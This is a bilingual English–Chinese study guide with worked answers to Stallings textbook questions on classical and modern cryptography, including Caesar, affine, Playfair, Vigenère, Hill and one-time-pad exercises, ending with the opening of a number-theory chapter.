E3. (Review Question 3.3, Stallings) Differentiate between secret-key encryption and public-key encryption.E3.（复习题 3.3，Stallings）区分秘密密钥加密和公钥加密。
Answer
| Secret-key (symmetric)秘密密钥（对称） | Public-key (asymmetric)公钥（非对称） | |
|---|---|---|
| Keys密钥数 | One key, used for both encryption and decryption只有一个密钥，加密和解密都使用它 | A pair: one key encrypts and the other decrypts一对密钥：一个加密，另一个解密 |
| Secrecy保密性 | The key must be kept secret by both parties双方都必须保管好这个密钥 | The private key is secret; the public key may be published私钥保密；公钥可以公开 |
| Key distribution密钥分发 | Sender and receiver must share the key through a secure channel发送方和接收方必须通过安全信道共享密钥 | The public key can be sent openly; only the private key must be protected公钥可以公开发送；只有私钥需要保护 |
| Requirement要求 | Strong algorithm and a secret key强算法加上一个秘密密钥 | Algorithm in which one key of the pair cannot be derived from the other密钥对中的一个无法由另一个推出 |
Secret-key encryption is much faster; public-key encryption removes the need to share a secret in advance and also supports digital signatures.秘密密钥加密快得多；公钥加密则无需事先共享秘密，并且还支持数字签名。
思路：对称加密一把钥匙且必须保密；公钥加密一对钥匙，公钥可公开。
E4. (Review Question 3.4, Stallings) What is the difference between a block cipher and a stream cipher?E4.（复习题 3.4，Stallings）分组密码与流密码有什么区别？
Answer
A block cipher processes the plaintext in fixed-size blocks (for example 64 or 128 bits) and produces one ciphertext block for each plaintext block, all under the same key. A stream cipher processes the input continuously, one element (a bit or a byte) at a time, and produces output one element at a time, typically by combining the plaintext with a key stream. A block cipher treats a block as a unit, so the output block depends on the whole input block; a stream cipher can start encrypting as soon as one element arrives.分组密码把明文按固定长度的分组（例如 64 或 128 位）处理，每个明文分组产生一个密文分组，全部使用同一个密钥。流密码连续地处理输入，一次一个元素（一个比特或一个字节），通常是把明文与密钥流组合，逐个元素地输出。分组密码把一个分组当作一个整体，因此输出分组取决于整个输入分组；流密码则在一个元素到达后就可以开始加密。
思路：分组密码一次处理一块，流密码逐位或逐字节处理。
E5. (Review Question 3.5, Stallings; 20.5, Stallings & Brown) What are the two general approaches to attacking a cipher?E5.（复习题 3.5，Stallings；20.5，Stallings & Brown）攻击密码的两种一般方法是什么？
Answer
- Cryptanalysis: the attack uses the nature of the algorithm, some knowledge of the general characteristics of the plaintext, and possibly some sample plaintext–ciphertext pairs, to deduce a particular plaintext or, better, the key. It works because the ciphertext keeps traces of the structure of the plaintext.密码分析：攻击利用算法的性质、对明文一般特征的某些了解，以及可能的若干样本明文与密文对，推出某个特定的明文，或者更好的是推出密钥。它之所以有效，是因为密文保留了明文结构的痕迹。
- Brute-force attack: the attacker tries every possible key on a piece of ciphertext until an intelligible plaintext is obtained. On average half of all keys must be tried.穷举攻击：攻击者对一段密文尝试所有可能的密钥，直到得到可读的明文。平均要尝试一半的密钥。
Cryptanalysis can be much faster than brute force; brute force always works in principle and is only prevented by a large key space.密码分析可能比穷举快得多。穷举在原则上总是有效的，只有密钥空间足够大时才能阻止它。
思路：密码分析利用算法与明文的结构；暴力破解逐个试密钥，平均试一半。
E6. (Review Question 3.6, Stallings) List and briefly define types of cryptanalytic attacks based on what is known to the attacker.E6.（复习题 3.6，Stallings）根据攻击者已知的内容，列出并简要定义各类密码分析攻击。
Answer
In every case the attacker knows the algorithm and has the ciphertext. In addition:在所有情况下，攻击者都知道算法，并拥有密文。此外：
- Ciphertext only: nothing else is known; this is the hardest case for the attacker.唯密文攻击：除此之外一无所知；这是对攻击者来说最难的情况。
- Known plaintext: the attacker has one or more plaintext–ciphertext pairs made with the secret key, for example from standard message headers.已知明文攻击：攻击者拥有一个或多个用秘密密钥加密得到的明文与密文对，例如来自标准消息首部。
- Chosen plaintext: the attacker chooses plaintext messages and obtains their ciphertexts under the secret key.选择明文攻击：攻击者自己选择明文消息，并获得它们在秘密密钥下的密文。
- Chosen ciphertext: the attacker chooses ciphertexts and obtains their decryptions under the secret key.选择密文攻击：攻击者自己选择密文，并获得它们在秘密密钥下的解密结果。
- Chosen text: the attacker can use both chosen plaintext and chosen ciphertext.选择文本攻击：攻击者既可以使用选择明文，也可以使用选择密文。
A cipher is only considered strong if it resists at least ciphertext-only and known-plaintext attacks.只有当一个密码至少能抵抗唯密文攻击和已知明文攻击时，才被认为是强的。
思路：已知量越多，攻击越强：唯密文 < 已知明文 < 选择明文/密文。
E7. (Review Question 3.7, Stallings) Briefly describe the criteria that define a computationally secure cipher.E7.（复习题 3.7，Stallings）简要描述定义计算安全密码的标准。
Answer
An encryption scheme is computationally secure if at least one of two criteria is met.如果满足以下两条标准中的至少一条，则称一个加密方案是计算安全的。
- The cost of breaking the cipher exceeds the value of the encrypted information.破解该密码的代价超过被加密信息的价值。
- The time required to break the cipher exceeds the useful lifetime of the information.破解该密码所需的时间超过信息的有效期。
This is all that practical ciphers can offer. In contrast, a scheme is unconditionally secure if the ciphertext does not contain enough information to determine the plaintext uniquely, however much ciphertext and computing time the opponent has; only the one-time pad has this property.这正是实用密码所能提供的全部保障。相比之下，如果密文不包含足够的信息来唯一确定明文，无论对手拥有多少密文和计算时间，方案就是无条件安全的；只有一次一密具有这一性质。
思路：计算安全 = 破解代价大于信息价值，或耗时超过信息有效期。
E8. (Review Question 3.8, Stallings) Why is the Caesar cipher substitution technique vulnerable to a brute-force cryptanalysis?E8.（复习题 3.8，Stallings）为什么凯撒密码的代换技术容易受到穷举密码分析？
Answer
The Caesar cipher replaces each letter by the letter \(k\) places further in the alphabet, so the key is a single shift \(k\) with only 25 nontrivial values. An attacker who knows the algorithm can simply decrypt the ciphertext with each of the 25 shifts and read the results; English plaintext is recognized at once, because only one shift gives intelligible text. The key space is so small that the attack takes seconds by hand, and the language is easily recognizable.凯撒密码把每个字母替换为字母表中向后 \(k\) 位的字母，因此密钥只是一个移位量 \(k\)，非平凡的取值只有 25 个。知道算法的攻击者只需用这 25 个移位量分别解密密文，然后读结果即可。英文明文会立刻被识别，因为只有一个移位量能得到可读的文本。密钥空间如此之小，手工攻击只需几秒钟，而且语言很容易辨认。
思路：密钥只有 25 种可能，逐个试即可，明文是可识别的英文。
E9. (Review Question 3.9, Stallings) How much key space is available when a monoalphabetic substitution cipher is used to replace plaintext with ciphertext?E9.（复习题 3.9，Stallings）使用单表代换密码把明文替换为密文时，可用的密钥空间有多大？
Answer
A monoalphabetic cipher uses any permutation of the 26 letters as the cipher alphabet. The number of permutations is单表密码使用 26 个字母的任意置换作为密文字母表。置换的数目为
\[26! = 403\,291\,461\,126\,605\,635\,584\,000\,000 \approx 4.03\times 10^{26} \approx 2^{88.4}.\]
This key space is far too large for brute force (about the size of a 88-bit key). Nevertheless the cipher is weak, because the statistics of the language survive: each plaintext letter is always replaced by the same ciphertext letter, so letter frequencies, common digrams and common words reveal the mapping.这个密钥空间对穷举来说太大了（大约相当于 88 位密钥的规模）。尽管如此，这种密码仍然很弱，因为语言的统计特性依然保留：每个明文字母总是被替换为同一个密文字母，因此字母频率、常见双字母组和常见单词都会暴露这种映射关系。
思路：26! ≈ 4×10^26 ≈ 2^88，足够大，但频率分析仍可破解。
E10. (Review Question 3.10, Stallings) What is the drawback of a Playfair cipher?E10.（复习题 3.10，Stallings）Playfair 密码有什么缺点？
Answer
Playfair encrypts digrams (pairs of letters) with a \(5\times5\) key matrix, so it hides single-letter frequencies much better than a monoalphabetic cipher. Its drawback is that it still reveals structure of the plaintext: there are only \(25\times25=625\) digrams, and their frequency distribution in English is far from flat, so digram frequency analysis breaks it with a few hundred letters of ciphertext. Each digram is always encrypted to the same ciphertext digram, and the reverse digram decrypts to the reversed pair, which gives further clues. In addition, I and J share a cell, and fillers such as x must be inserted for double letters and odd length.Playfair 用一个 \(5\times5\) 密钥矩阵加密双字母组，因此它比单表密码更能隐藏单字母频率。它的缺点是仍然暴露明文的结构：双字母组只有 \(25\times25=625\) 种，而且它们在英文中的频率分布远不平坦，因此只需几百个字母的密文，就能用双字母组频率分析破解它。每个双字母组总是被加密为同一个密文双字母组，而反向的双字母组会解密为反转后的字母对，这也提供了更多线索。此外，I 和 J 共用一个格子，遇到重复字母或长度为奇数时还必须插入 x 之类的填充字母。
思路：仍是固定的双字母替换，只有 625 种双字母，双字母频率分析仍可破译。
E11. (Review Question 3.11, Stallings) What is the difference between a monoalphabetic cipher and a polyalphabetic cipher?E11.（复习题 3.11，Stallings）单表密码与多表密码有什么区别？
Answer
A monoalphabetic cipher uses one fixed substitution alphabet for the whole message: a given plaintext letter always becomes the same ciphertext letter, so the letter frequencies of the language remain visible. A polyalphabetic cipher (for example Vigenère) uses several monoalphabetic substitutions, and a key determines which one applies to each plaintext position. The same plaintext letter then gives different ciphertext letters at different positions, which flattens the letter frequency distribution and makes frequency analysis much harder.单表密码对整条消息使用一个固定的代换字母表：某个明文字母总是变成同一个密文字母，因此语言的字母频率仍然可见。多表密码（例如维吉尼亚密码）使用若干个单表代换，由密钥决定每个明文位置使用哪一个。同一个明文字母在不同位置会得到不同的密文字母，这使字母频率分布变得平坦，频率分析也因此困难得多。
思路：单表只有一张替换表；多表按密钥轮换多张表，抹平频率。
E12. (Review Question 3.12, Stallings) How can an attacker determine the length of the keyword used in the Vigenère cipher?E12.（复习题 3.12，Stallings）攻击者如何确定维吉尼亚密码所用关键字的长度？
Answer
With a keyword of length \(m\), the letters at positions \(i, i+m, i+2m,\dots\) are all encrypted with the same Caesar shift. The attacker finds \(m\) in one of two ways.如果关键字长度为 \(m\)，那么位于位置 \(i, i+m, i+2m,\dots\) 的字母都使用同一个凯撒移位量加密。攻击者可以用两种方法之一求出 \(m\)。
- Kasiski examination: find repeated strings of three or more letters in the ciphertext. A repeat usually arises when the same plaintext word is aligned with the same part of the keyword, so the distance between the occurrences is a multiple of \(m\). The greatest common divisor (or the common factors) of several such distances gives the key length.卡西斯基检验：在密文中寻找至少三个字母的重复字符串。这种重复通常发生在同一个明文单词与密钥的同一部分对齐时，因此两次出现之间的距离是 \(m\) 的倍数。若干这样的距离的最大公约数（或公因数）给出密钥长度。
- Index of coincidence: for each candidate \(m\) split the ciphertext into \(m\) columns and compute the index of coincidence of each. For the correct \(m\) every column is a Caesar-shifted English text with an index near 0.065; for a wrong \(m\) the columns look random with an index near 0.038.重合指数：对每个候选的 \(m\)，把密文切分成 \(m\) 列，并计算每一列的重合指数。对于正确的 \(m\)，每一列都是经过凯撒移位的英文文本，重合指数接近 0.065；对于错误的 \(m\)，各列看起来像随机的，重合指数接近 0.038。
Once \(m\) is known, each column is solved as a Caesar cipher by frequency analysis.一旦知道了 \(m\)，每一列都可以用频率分析当作凯撒密码来求解。
思路：Kasiski 重复片段的间距是密钥长度的倍数；也可用重合指数检验。
E13. (Review Question 3.13, Stallings) What is a transposition cipher?E13.（复习题 3.13，Stallings）什么是置换密码？
Answer
A transposition cipher rearranges the positions of the plaintext letters according to a rule and does not change the letters themselves. In the rail fence cipher the plaintext is written diagonally on several rows and read off row by row; in columnar transposition it is written in rows under a keyword and read out column by column in the order given by the key. Because the letters are unchanged, the single-letter frequencies of the ciphertext are the same as those of the plaintext, which shows that the cipher is a transposition. It is made stronger by repeating it (a multiple transposition) or by combining it with substitution.置换密码按照某种规则重新排列明文字母的位置，而不改变字母本身。在栅栏密码中，明文沿对角线写在若干行上，然后逐行读出；在列置换中，明文按行写在一个关键字下方，然后按照密钥给定的顺序逐列读出。因为字母没有改变，密文的单字母频率与明文相同，这说明它是置换密码。把它重复多次（多重置换）或与代换结合，可以让它更强。
思路：只打乱位置、不改字母，所以字母频率与明文相同。
E14. (Review Question 3.14, Stallings) What are the drawbacks of steganography?E14.（复习题 3.14，Stallings）隐写术有哪些缺点？
Answer
Steganography hides the existence of a message, for example in a picture or in invisible ink, instead of making it unreadable. Its drawbacks are:隐写术隐藏的是消息的存在，例如藏在图片中或用隐形墨水书写，而不是让消息不可读。它的缺点有：
- It needs a high overhead to hide a relatively small amount of information, since a long cover text or large image is needed for a few bits.它的开销很大：为了隐藏相对少量的信息，需要很长的载体文本或很大的图像，只为了藏下几个比特。
- Its value depends on secrecy of the method. Once the scheme is discovered, it is worthless and the message is readable by anyone, unlike encryption whose security rests on the key.它的价值取决于方法的保密性。一旦方法被发现，它就毫无价值，任何人都能读取消息。加密则不同，其安全性取决于密钥。
- For this reason it is usually combined with encryption of the hidden message.因此，隐写术通常与对隐藏消息的加密结合使用。
思路：开销大，一旦方法被发现就毫无保护。
E15. (Review Question 2.1, Stallings & Brown; 20.1, Stallings & Brown) What are the essential ingredients of a symmetric cipher?E15.（复习题 2.1，Stallings & Brown；20.1，Stallings & Brown）对称密码的基本组成部分是什么？
Answer
A symmetric cipher has five ingredients.对称密码有五个组成部分。
- Plaintext: the original message or data, the input of the encryption algorithm.明文：原始的消息或数据，即加密算法的输入。
- Encryption algorithm: performs substitutions and transformations on the plaintext.加密算法：对明文进行代换和变换。
- Secret key: an input to the algorithm, independent of the plaintext; the exact substitutions and transformations depend on it.秘密密钥：算法的输入，与明文无关；确切的代换和变换取决于它。
- Ciphertext: the scrambled message produced as output; it depends on the plaintext and the key.密文：作为输出产生的被打乱的消息；它取决于明文和密钥。
- Decryption algorithm: the encryption algorithm run in reverse; it takes the ciphertext and the same secret key and produces the plaintext.解密算法：加密算法的逆向运行；它以密文和同一个秘密密钥为输入，产生明文。
思路：明文、加密算法、密钥、密文、解密算法五要素。
E16. (Review Question 2.2, Stallings & Brown; 20.3, Stallings & Brown) How many keys are required for two people to communicate via a symmetric cipher?E16.（复习题 2.2，Stallings & Brown；20.3，Stallings & Brown）两个人使用对称密码通信需要多少个密钥？
Answer
One. A symmetric cipher uses the same secret key for encryption and decryption, so the two parties share a single key, which both must keep secret. (For \(n\) parties who all want to communicate pairwise, \(n(n-1)/2\) keys are needed, which is why key distribution is the main difficulty.) By contrast, a public-key cipher requires a key pair for each party.一个。 对称密码加密和解密使用同一个秘密密钥，因此双方共享一个密钥，并且两人都必须保密。（若 \(n\) 方两两通信，则需要 \(n(n-1)/2\) 个密钥，这就是密钥分发成为主要难题的原因。）相比之下，公钥密码要求每一方都拥有一对密钥。
思路：对称密码两人只需共享一把密钥。
E17. (Problem 3.1, Stallings) The affine Caesar cipher has the form \(C = E([a,b],p) = (ap+b) \bmod 26\) for each plaintext letter \(p\) (A = 0, ..., Z = 25). An encryption algorithm must be one-to-one: if \(p \ne q\) then \(E(k,p) \ne E(k,q)\), otherwise decryption is impossible. The affine cipher is not one-to-one for all values of \(a\); for example, for \(a=2\) and \(b=3\), \(E([a,b],0)=E([a,b],13)=3\). (a) Are there any limitations on the value of \(b\)? Explain why or why not. (b) Determine which values of \(a\) are not allowed. (c) Provide a general statement of which values of \(a\) are and are not allowed. Justify your statement.E17.（Stallings 习题 3.1）仿射凯撒密码对每个明文字母 \(p\) 的形式为 \(C = E([a,b],p) = (ap+b) \bmod 26\)（A = 0，……，Z = 25）。加密算法必须是一对一的：若 \(p \ne q\)，则 \(E(k,p) \ne E(k,q)\)，否则无法解密。仿射密码并非对 \(a\) 的所有取值都是一对一的；例如，对于 \(a=2\) 和 \(b=3\)，\(E([a,b],0)=E([a,b],13)=3\)。(a) \(b\) 的取值有没有限制？说明理由。(b) 确定哪些 \(a\) 的取值不允许。(c) 给出一般性的结论：哪些 \(a\) 的取值允许，哪些不允许。并证明你的结论。
Answer
(a) No limitation on \(b\). Adding \(b\) mod 26 is a shift of the alphabet, which is a bijection on \(\mathbb{Z}_{26}\) for every \(b\). If \(ap+b \equiv aq+b\) then \(ap \equiv aq\), so \(b\) cancels and cannot affect whether the map is one-to-one. All 26 values of \(b\) are allowed.(a) \(b\) 没有限制。 加上 \(b\) 再对 26 取模，是字母表的一次平移；对于每个 \(b\)，它在 \(\mathbb{Z}_{26}\) 上都是一个双射。若 \(ap+b \equiv aq+b\)，则 \(ap \equiv aq\)，因此 \(b\) 被抵消，不会影响映射是否为一对一。\(b\) 的全部 26 个取值都允许。
(b) The map \(p \mapsto ap\) must be one-to-one on \(\mathbb{Z}_{26}\). It fails when \(a\) shares a factor with \(26=2\cdot13\), that is for \(a=0\), all even \(a\) (2, 4, ..., 24) and \(a=13\). Example: for \(a=13\), \(13p \bmod 26\) is 0 for every even \(p\). So 14 values are not allowed.(b) 映射 \(p \mapsto ap\) 必须在 \(\mathbb{Z}_{26}\) 上是一对一的。当 \(a\) 与 \(26=2\cdot13\) 有公因子时它就失败，即 \(a=0\)，以及所有偶数 \(a\)（2, 4, ……, 24）和 \(a=13\) 时。例如，对于 \(a=13\)，\(13p \bmod 26\) 对每个偶数 \(p\) 都为 0。因此有 14 个取值不允许。
(c) \(a\) is allowed if and only if \(\gcd(a,26)=1\). Proof. Suppose \(\gcd(a,26)=1\) and \(ap \equiv aq \pmod{26}\). Then \(26 \mid a(p-q)\); since \(26\) shares no factor with \(a\), \(26 \mid (p-q)\), so \(p=q\) for \(p,q \in \{0,\dots,25\}\). The map is one-to-one. Conversely, if \(d=\gcd(a,26)>1\), then \(p=26/d\) and \(q=0\) are different, but \(a \cdot 26/d = 26\cdot(a/d) \equiv 0\), so both map to \(b\): not one-to-one. The allowed values are 1, 3, 5, 7, 9, 11, 15, 17, 19, 21, 23, 25 (12 values), which gives \(12 \times 26 = 312\) keys.(c) \(a\) 允许，当且仅当 \(\gcd(a,26)=1\)。 证明。设 \(\gcd(a,26)=1\) 且 \(ap \equiv aq \pmod{26}\)。那么 \(26 \mid a(p-q)\)；由于 \(26\) 与 \(a\) 没有公因子，\(26 \mid (p-q)\)，因此对于 \(p,q \in \{0,\dots,25\}\) 有 \(p=q\)。映射是一对一的。反过来，若 \(d=\gcd(a,26)>1\)，则 \(p=26/d\) 与 \(q=0\) 不同，但 \(a \cdot 26/d = 26\cdot(a/d) \equiv 0\)，因此两者都映射到 \(b\)：不是一对一的。允许的取值为 1, 3, 5, 7, 9, 11, 15, 17, 19, 21, 23, 25（共 12 个），这给出 \(12 \times 26 = 312\) 个密钥。
思路：加密映射要可逆，等价于 a 在模 26 下有逆元，即 gcd(a,26)=1；b 任意。
E18. (Problem 3.3, Stallings) A ciphertext has been generated with an affine cipher. The most frequent letter of the ciphertext is "C", and the second most frequent letter of the ciphertext is "Z". Break this code.E18.（Stallings 习题 3.3）一段密文是由仿射密码生成的。密文中出现最频繁的字母是 "C"，第二频繁的字母是 "Z"。破解这段密码。
Answer
Method: assume that the two most frequent ciphertext letters stand for the two most frequent English letters, e and t, and solve for the key \((a,b)\) of \(C=(ap+b) \bmod 26\). With A = 0: e = 4, t = 19, C = 2, Z = 25.方法：假设密文中出现最频繁的两个字母分别对应英文中最频繁的两个字母 e 和 t，并解出 \(C=(ap+b) \bmod 26\) 的密钥 \((a,b)\)。取 A = 0 时，e = 4，t = 19，C = 2，Z = 25。
\[4a+b \equiv 2,\qquad 19a+b \equiv 25 \pmod{26}.\]
Subtracting gives \(15a \equiv 23 \pmod{26}\). Since \(15 \cdot 7 = 105 = 4\cdot26+1\), the inverse of 15 is 7, so \(a \equiv 23 \cdot 7 = 161 \equiv 5 \pmod{26}\). Then \(b \equiv 2 - 4\cdot5 = -18 \equiv 8\).两式相减得到 \(15a \equiv 23 \pmod{26}\)。由于 \(15 \cdot 7 = 105 = 4\cdot26+1\)，15 的逆元是 7，所以 \(a \equiv 23 \cdot 7 = 161 \equiv 5 \pmod{26}\)。然后 \(b \equiv 2 - 4\cdot5 = -18 \equiv 8\)。
Check: \(5\cdot4+8=28\equiv2\) (e to C) and \(5\cdot19+8=103\equiv25\) (t to Z). Also \(\gcd(5,26)=1\), so the key is valid.检验：\(5\cdot4+8=28\equiv2\)（e 映射为 C）和 \(5\cdot19+8=103\equiv25\)（t 映射为 Z）。另外 \(\gcd(5,26)=1\)，因此该密钥有效。
The key is \((a,b)=(5,8)\). Decryption is \(p \equiv 5^{-1}(C-8) = 21(C-8) \bmod 26\), because \(5\cdot21=105\equiv1\). If the result is not readable English, the assumption was wrong and the next most likely letter pairs are tried.密钥为 \((a,b)=(5,8)\)。解密为 \(p \equiv 5^{-1}(C-8) = 21(C-8) \bmod 26\)，因为 \(5\cdot21=105\equiv1\)。如果结果不是可读的英文，说明假设错了，应尝试下一组最可能的字母对。
思路：假设 C→e、Z→t，列两个同余方程解出 a、b，再用 a 的逆元解密。
E19. (Problem 3.14, Stallings) (a) Encrypt the message "meet me at the usual place at ten rather than eight o clock" using the Hill cipher with the key \(K=\begin{pmatrix}7&3\\2&5\end{pmatrix}\). Show your calculations and the result. (b) Show the calculations for the corresponding decryption of the ciphertext to recover the original plaintext.E19.（Stallings 习题 3.14）(a) 用密钥 \(K=\begin{pmatrix}7&3\\2&5\end{pmatrix}\) 的 Hill 密码加密消息 "meet me at the usual place at ten rather than eight o clock"。写出计算过程和结果。(b) 写出对密文进行相应解密的计算过程，恢复原始明文。
Answer
Method: Hill cipher with \(m=2\): \(C = PK \bmod 26\) for a row vector \(P\) of two letters, and \(P = CK^{-1} \bmod 26\) (a = 0, ..., z = 25). Spaces are removed and the 47 letters are padded with x to 48, giving 24 blocks.方法：用密钥 \(m=2\) 的 Hill 密码，对两个字母组成的行向量 \(P\) 做 \(C = PK \bmod 26\) 运算，其中 \(P = CK^{-1} \bmod 26\)（a = 0，……，z = 25）。去掉空格，47 个字母用 x 补齐到 48 个，得到 24 个分组。
(a) For a block \((p_1\ p_2)\): \(c_1 = 7p_1 + 2p_2\) and \(c_2 = 3p_1 + 5p_2\) (mod 26). First block: me = (12, 4): \(c_1 = 84+8 = 92 \equiv 14\) (o), \(c_2 = 36+20 = 56 \equiv 4\) (e). Second block: et = (4, 19): \(c_1 = 28+38 = 66 \equiv 14\), \(c_2 = 12+95 = 107 \equiv 3\), so od. The other blocks are computed in the same way:(a) 对于分组 \((p_1\ p_2)\)：\(c_1 = 7p_1 + 2p_2\)，并且 \(c_2 = 3p_1 + 5p_2\)（模 26）。第一个分组 me = (12, 4)：\(c_1 = 84+8 = 92 \equiv 14\)（o），\(c_2 = 36+20 = 56 \equiv 4\)（e）。第二个分组 et = (4, 19)：\(c_1 = 28+38 = 66 \equiv 14\)，\(c_2 = 12+95 = 107 \equiv 3\)，因此为 od。其余分组用同样的方法计算：
me et me at th eu su al pl ac ea tt en ra th er th an ei gh to cl oc kx
OE OD OE MR RO QI KY WD XW EK CM PW CZ PZ RO KT RO AN SA EB FX KJ YA MP
Ciphertext: OEODOEMRROQIKYWDXWEKCMPWCZPZROKTROANSAEBFXKJYAMP.密文：OEODOEMRROQIKYWDXWEKCMPWCZPZROKTROANSAEBFXKJYAMP。
(b) \(\det K = 7\cdot5 - 3\cdot2 = 29 \equiv 3\). \(\gcd(3,26)=1\) and \(3^{-1} = 9\), since \(3\cdot9=27\equiv1\). So \(K^{-1} = 9\begin{pmatrix}5&-3\\-2&7\end{pmatrix} = \begin{pmatrix}45&-27\\-18&63\end{pmatrix} \equiv \begin{pmatrix}19&25\\8&11\end{pmatrix} \pmod{26}\). Check: \(KK^{-1} \equiv I\). Decryption of the first block OE = (14, 4): \(p_1 = 14\cdot19 + 4\cdot8 = 298 \equiv 12\) (m), \(p_2 = 14\cdot25 + 4\cdot11 = 394 \equiv 4\) (e). Doing all blocks gives meetmeattheusualplaceattenratherthaneightoclockx, that is the original message plus the padding letter x.(b) \(\det K = 7\cdot5 - 3\cdot2 = 29 \equiv 3\)。\(\gcd(3,26)=1\) 与 \(3^{-1} = 9\)，因为 \(3\cdot9=27\equiv1\)，所以 \(K^{-1} = 9\begin{pmatrix}5&-3\\-2&7\end{pmatrix} = \begin{pmatrix}45&-27\\-18&63\end{pmatrix} \equiv \begin{pmatrix}19&25\\8&11\end{pmatrix} \pmod{26}\)。检验：\(KK^{-1} \equiv I\)。对第一个分组 OE = (14, 4) 解密：\(p_1 = 14\cdot19 + 4\cdot8 = 298 \equiv 12\)（m），\(p_2 = 14\cdot25 + 4\cdot11 = 394 \equiv 4\)（e）。对所有分组解密，得到 meetmeattheusualplaceattenratherthaneightoclockx，即原始消息加上填充字母 x。
思路：先用行向量乘密钥矩阵加密；解密需要 det 的模 26 逆元，求出 K 的逆矩阵。
E20. (Problem 3.20, Stallings) This problem explores the use of a one-time pad version of the Vigenère cipher, in which the key is a stream of random numbers between 0 and 26; for example, a key 3 19 5 ... means that the first plaintext letter is shifted by 3, the second by 19, the third by 5, and so on. (a) Encrypt the plaintext sendmoremoney with the key stream 3 11 5 7 17 21 0 11 14 8 7 13 9. (b) Using the ciphertext produced in part (a), find a key so that the ciphertext decrypts to the plaintext cashnotneeded.E20.（Stallings 习题 3.20）本题探讨一次一密版的维吉尼亚密码，其中密钥是 0 到 26 之间的随机数序列。例如，密钥 3 19 5 ……表示第一个明文字母移位 3，第二个移位 19，第三个移位 5，依此类推。(a) 用密钥序列 3 11 5 7 17 21 0 11 14 8 7 13 9 加密明文 sendmoremoney。(b) 利用 (a) 中得到的密文，找出一个密钥，使该密文解密为明文 cashnotneeded。
Answer
Method: letter \(i\) of the ciphertext is \(c_i = (p_i + k_i) \bmod 26\) with a = 0, ..., z = 25.方法：密文的字母 \(i\) 为 \(c_i = (p_i + k_i) \bmod 26\)（a = 0，……，z = 25）。
(a)
plaintext s e n d m o r e m o n e y
number 18 4 13 3 12 14 17 4 12 14 13 4 24
key 3 11 5 7 17 21 0 11 14 8 7 13 9
sum mod 26 21 15 18 10 3 9 17 15 0 22 20 17 7
ciphertext V P S K D J R P A W U R H
The ciphertext is VPSKDJRPAWURH.密文为 VPSKDJRPAWURH。
(b) Each key value is the difference \(k_i = (c_i - p_i) \bmod 26\) between the ciphertext letter and the wanted plaintext letter:(b) 每个密钥值是密文字母与所需明文字母之间的差 \(k_i = (c_i - p_i) \bmod 26\)：
ciphertext V P S K D J R P A W U R H
number 21 15 18 10 3 9 17 15 0 22 20 17 7
plaintext c a s h n o t n e e d e d
number 2 0 18 7 13 14 19 13 4 4 3 4 3
key 19 15 0 3 16 21 24 2 22 18 17 13 4
The key stream 19 15 0 3 16 21 24 2 22 18 17 13 4 turns the same ciphertext into cashnotneeded. This shows why the one-time pad is unconditionally secure: for a random key as long as the message, every plaintext of the same length is equally possible for a given ciphertext, so the ciphertext carries no information about the message.密钥流 19 15 0 3 16 21 24 2 22 18 17 13 4 把同一段密文变成 cashnotneeded。这说明了为什么一次一密是无条件安全的：对于与消息等长的随机密钥，给定一段密文时，同样长度的每一种明文都同样可能，因此密文不包含任何关于消息的信息。
思路：一次一密下同一密文配不同密钥可得任意同长明文，所以无条件安全。
E21. (Problem 2.1, Stallings & Brown; 20.17, Stallings & Brown) Suppose someone suggests the following way to confirm that the two of you are both in possession of the same secret key. You create a random bit string the length of the key, XOR it with the key, and send the result over the channel. Your partner XORs the incoming block with the key (which should be the same as your key) and sends it back. You check, and if what you receive is your original random string, you have verified that your partner has the same secret key, yet neither of you has ever transmitted the key. Is there a flaw in this scheme?E21.（Stallings & Brown 习题 2.1；20.17，Stallings & Brown）假设有人提出以下方法，用来确认你们双方都拥有同一个秘密密钥。你生成一个与密钥等长的随机比特串，将它与密钥异或，然后通过信道发送结果。对方将收到的分组与密钥异或（结果应与你的密钥相同），再发回给你。你检查：如果收到的是你原来的随机串，就说明对方拥有相同的秘密密钥，而你们双方都从未传输过密钥本身。这个方案有缺陷吗？
Answer
Yes, the scheme leaks the key. Let \(R\) be the random string and \(K\) the key. The first message is \(R \oplus K\), the reply is \((R \oplus K) \oplus K = R\). Both messages cross the channel, so an eavesdropper sees \(R \oplus K\) and \(R\) and computes是的，这个方案会泄露密钥。 设 \(R\) 为随机串，\(K\) 为密钥。第一条消息是 \(R \oplus K\)，回复是 \((R \oplus K) \oplus K = R\)。两条消息都经过信道传输，因此窃听者能看到 \(R \oplus K\) 和 \(R\)，并计算
\[(R \oplus K) \oplus R = K.\]
The key is recovered by one XOR, so it is effectively transmitted, in a form that is trivial to decode, and the confirmation destroys the secrecy that it is meant to check. XOR with a key is not a secure way to hide a value that is also sent in the clear. A sound confirmation uses a challenge–response with a keyed one-way function: send a random challenge \(R\), and the partner returns \(\mathrm{MAC}_K(R)\) or \(E(K,R)\) of a fresh value, which does not reveal \(K\) and cannot be replayed with another challenge.只需一次异或就能恢复密钥，因此密钥实际上是以一种极易解码的形式被传输了，而这次确认反而破坏了它本应检验的秘密性。用密钥对一个也以明文形式发送的值做异或，并不能安全地隐藏它。正确的确认方法是挑战-应答，使用带密钥的单向函数：发送一个随机挑战 \(R\)，对方返回对一个新值做 \(\mathrm{MAC}_K(R)\) 或 \(E(K,R)\) 的结果。这个结果不会泄露 \(K\)，而且不能用另一个挑战来重放。
思路：窃听者看到 R⊕K 和 R，异或即得密钥 K。
Chapter 3Number Theory for Cryptography密码学中的数论Reading: Stallings (Crypto) Ch. 2
Divisibility and modular arithmetic ★★★整除与模运算
Goal. Reduce numbers modulo \(n\) by hand, also negative ones. Decide when a congruence can be cancelled, and read an inverse from a small table.目标。 手工对模 \(n\) 做化简，包括负数。判断何时可以约去同余式，并从小表中读出逆元。
Step 1: divisibility and the division algorithm第 1 步：整除与除法算法
In words: dividing a by n always leaves exactly one quotient and one remainder, and the remainder lies between 0 and n − 1.用文字表述：把 a 除以 n，总是恰好得到一个商和一个余数，且余数介于 0 和 n − 1 之间。
A nonzero integer \(b\) divides（整除）\(a\), written \(b\mid a\), if \(a=mb\) for some integer \(m\). Then \(b\) is a divisor（因数）of \(a\). Example: \(13\mid182\) because \(182=14\times13\). Two rules are used later.非零整数 \(b\) 整除 \(a\)，记作 \(b\mid a\)，如果存在整数 \(m\)，使得 \(a=mb\)。那么 \(b\) 是 \(a\) 的因数。例如 \(13\mid182\)，因为 \(182=14\times13\)。后面会用到两条规则。
- \(a\mid b\) and \(b\mid c\) imply \(a\mid c\).\(a\mid b\) 与 \(b\mid c\) 蕴含 \(a\mid c\)。
